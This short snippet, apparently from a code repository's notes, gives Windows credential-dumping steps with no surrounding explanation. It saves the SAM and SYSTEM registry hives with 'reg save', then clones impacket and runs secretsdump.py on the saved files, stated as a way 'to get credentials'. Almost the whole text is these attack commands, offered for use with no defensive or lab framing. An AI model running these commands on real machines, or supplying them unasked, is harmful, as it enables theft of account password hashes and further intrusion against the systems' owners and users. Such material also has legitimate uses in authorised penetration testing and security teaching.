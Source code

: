 ```
reg save HKLM\sam <file>
reg save HKLM\system <file>
```

dump Security Account Manager database to files.

```
git clone https://github.com/fortra/impacket
python ./impacket/examples/secretsdump.py -sam <file> -system <file> LOCAL
```

run impacket scripts to get credentials.